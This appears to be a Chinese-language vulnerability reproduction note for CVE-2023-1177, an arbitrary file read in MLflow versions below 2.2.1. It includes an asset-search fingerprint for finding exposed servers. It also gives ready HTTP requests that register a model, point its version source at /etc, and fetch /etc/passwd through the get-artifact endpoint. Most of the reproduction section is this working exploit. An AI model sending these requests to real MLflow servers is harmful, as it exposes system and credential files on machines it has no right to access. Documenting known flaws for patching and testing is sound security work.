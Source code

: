 # MLflow get-artifact 任意文件读取漏洞 CVE-2023-1177

## 漏洞描述

使用 MLflow 模型注册表托管 MLflow 开源项目的用户 mlflow server或者 mlflow ui使用早于 MLflow 2.2.1 的 MLflow 版本的命令如果不限制谁可以查询其服务器（例如，通过使用云 VPC、入站请求的 IP 白名单或身份验证 /授权中间件）。

此问题仅影响运行 mlflow server和 mlflow ui命令。 不使用的集成 mlflow server或者 mlflow ui不受影响； 例如，Azure Machine Learning 上的 Databricks Managed MLflow 产品和 MLflow 不使用这些命令，并且不会以任何方式受到这些漏洞的影响。

## 漏洞影响

```
MLflow < 2.2.1
```

## 网络测绘

```
app.name="MLflow"
```

## 漏洞复现

登陆页面

![image-20230417093814404](images/image-20230417093814404.png)

验证POC

```
POST /ajax-api/2.0/mlflow/registered-models/create
Content-Type: application/json

{"name": "testfile"}
```

![image-20230417093836998](images/image-20230417093836998.png)

```
POST /ajax-api/2.0/mlflow/model-versions/create
Content-Type: application/json

{"name": "testfile", "source": "/etc"}
```

![image-20230417093851779](images/image-20230417093851779.png)

```
/model-versions/get-artifact?path=passwd&name=testfile&version=1
```

![image-20230417093907298](images/image-20230417093907298.png)